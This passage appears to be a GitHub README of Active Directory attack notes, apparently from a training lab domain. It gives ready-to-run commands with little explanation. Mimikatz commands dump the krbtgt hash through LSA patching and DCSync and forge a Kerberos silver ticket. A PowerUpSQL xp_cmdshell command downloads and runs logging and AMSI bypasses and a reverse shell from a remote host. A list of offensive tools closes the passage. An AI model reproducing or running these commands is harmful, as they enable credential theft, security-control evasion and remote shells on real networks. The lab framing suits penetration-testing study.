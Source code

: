 ```Powershell
#/aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 -> Hash aes256 of user Krbtgt you can get it with Invoke-Mimi -Command '"lsadump::lsa /patch"' or a dcsync Invoke-Mimi -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
### Silver Ticket

```Powershell
Invoke-Mimi -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /rc4:af0686cc0ca8f04df42210c9ac980760 /service:CIFS /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
````
### MSSQL

```Powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "exec master..xp_cmdshell 'set username'"
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.116/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://172.16.100.116/amsibypass.txt);iex (iwr -UseBasicParsing http://172.16.100.116/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget eu-sql15
````

## ![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&duration=6000&pause=1000&width=435&lines=Tools)

- Microsoft.ActiveDirectory.Management.dll
- BloodHound-4.O.3_old.zip
- Find-PSRemotingLocalAdminAccess.ps1
- hfs.exe
- adPEAS.ps1
- InviShell
- Nmap-7.92
- Invoke-Mimi.ps1
- Invoke-PowerShellTcp.ps1
- Invoke-SessionHunter.ps1
- Invoke-SQLOSCmd.ps1
- SharpUp.exe
- PowerUp.ps1
- PowerUpSQL-master.zip
- PowerView.ps1
- Rubeus.exe
- sbloggingbypass.txt
- SharpHound.exe
- SharpHound.ps1
- nc64.exe
- NetExec.exe
